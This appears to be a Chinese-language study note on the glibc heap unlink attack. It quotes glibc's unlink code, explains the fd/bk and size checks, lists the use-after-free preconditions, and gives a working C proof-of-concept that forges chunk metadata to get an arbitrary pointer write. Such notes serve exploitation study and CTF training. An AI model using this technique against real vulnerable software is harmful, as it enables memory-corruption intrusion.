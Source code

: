 ```c
          if (p->fd_nextsize == p)
            fd->fd_nextsize = fd->bk_nextsize = fd;
          else
            {
              fd->fd_nextsize = p->fd_nextsize;
              fd->bk_nextsize = p->bk_nextsize;
              p->fd_nextsize->bk_nextsize = fd;
              p->bk_nextsize->fd_nextsize = fd;
            }
        }
      else
        {
          p->fd_nextsize->bk_nextsize = p->bk_nextsize;
          p->bk_nextsize->fd_nextsize = p->fd_nextsize;
        }
    }
}
```
古老的UNink攻击没有检查fd和bk和size，容易绕过，现在的unlink多了检查fd和bk指针。
1. **检查chunk大小和下一个chunk->prev_size是否相等**
2. **检查fd、bk的指针要正确。** P->bk->fd\=\=P && P->fd->bk\=\=P(corrupted double linked list)
3. 断开nextsize链表,**检查指针**
4. 先修改下一个chunk的bk指针，再修改上一个chunk的fd指针

unlink结束后会合并相邻未分配的chunk，然后放入到unsorted bin中(malloc 过程)


条件：
0. 需要一个可读写的chunk p，知道&p（p是global的）
1. UAF,可修改 free 状态下 smallbin 或是 unsorted bin 的 fd 和 bk 指针
2. 已知位置存在一个指针指向可进行 UAF 的 chunk

使用：
设置p的fd和bk，
- FD=P->fd=(size_t)&P-0x18
- BK=P->bk=(size_t)&p-0x10
- 结果：p=&p-0x18 ，p指向了p的地址-0x18

unlink_write:
```c
#include <stdio.h>
#include <stdlib.h>
int main(int argc, char *argv[]) {
  char *a, *b;
  a = malloc(0x40);
  b = malloc(0x420);
  malloc(0x10);
  free(a);
  // uaf
  size_t *uaf_chunk = a - 0x10;
  // bypass prev_size vs size check
  *((size_t *)b - 2) = 0x50;
  *((size_t *)b - 1) ^= 0x1;
  // fd
  *(uaf_chunk + 2) = (size_t)&uaf_chunk - 0x18;
  // bk
  *(uaf_chunk + 3) = (size_t)&uaf_chunk - 0x10;
  free(b);

  printf("%p\n", uaf_chunk);
  printf("%p\n", &uaf_chunk);
  return 0;
}

```
